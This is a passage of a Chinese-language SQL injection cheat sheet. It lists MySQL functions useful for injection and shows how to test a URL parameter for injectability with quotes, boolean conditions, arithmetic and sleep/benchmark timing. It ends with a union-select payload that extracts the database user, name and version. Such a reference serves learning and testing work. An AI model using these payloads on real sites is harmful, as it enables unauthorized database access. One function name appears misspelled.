 ### 3.3 常用字符串函数

	concat()                          /*连接字符串
	group_concat()
	concat_ws()                       /*连接字符串，第一个参数为分隔符
	char()                            /*获得字符串
	left(str, len)                    /*截取str左边len位  
	right(str, len)                   /*截取str右边len位
	substring(str, pos, len)          /*截取字符串
	rand()                            /*生成0至1的随机数
	floor(n)                          /*向下取整 
	name_conset(column_name, value)   /*用来产生一个结果集合
	
### 3.4 其他

	sleep(seconds) 停止seconds秒，用于time-based盲注
	benchmark(times, function) 将function执行times次，该函数可用于time-based盲注，例如（benchmark(500000, encode(‘a’,’b'))）
	encode(str, passwd_str) 使用passwd_str加密str函数

------

## 4 判断是否可注入

1、使用单引号‘判断注入，例如：

	http://aaa.com/s.php?id=1'，如果返回页面提示syntax error，则说明有漏洞

2、通过附加逻辑运算判断注入，例如：

	http://aaa.com/s.php?id=1 and 1=1/and 1=2，and 1=1有返回，and 1=2无返回

3、通过算数运算判断注入点，例如：

	例如：http://aaa.com/s.php?id=11-1

4、通过select语句判断注入点，例如：

	http://aaa.com/s.php?id=(select 10)

5、通过时间函数判断注入点，例如：

	http://aaa.com/s.php?id=2 and sleep(10)或者http://aaa.com/s.php?id=2 and benchmark(500000, encode('msg','bbb'))

------

## 5 常规注入

1、猜解列数 “order by n /* ”

2、查询mysql基本信息(假设数据库表有7列)

	“ and 1=2 union select 1,2,3,concat_ws(char(32,58,32),0x7c,user(),database(),version()),5,6,7/* ”

	例如：select * from sedb.site_tb where 1=2 union select 1,2,concat_ws(char(32,58,32),0x7c,user(),database(),version());
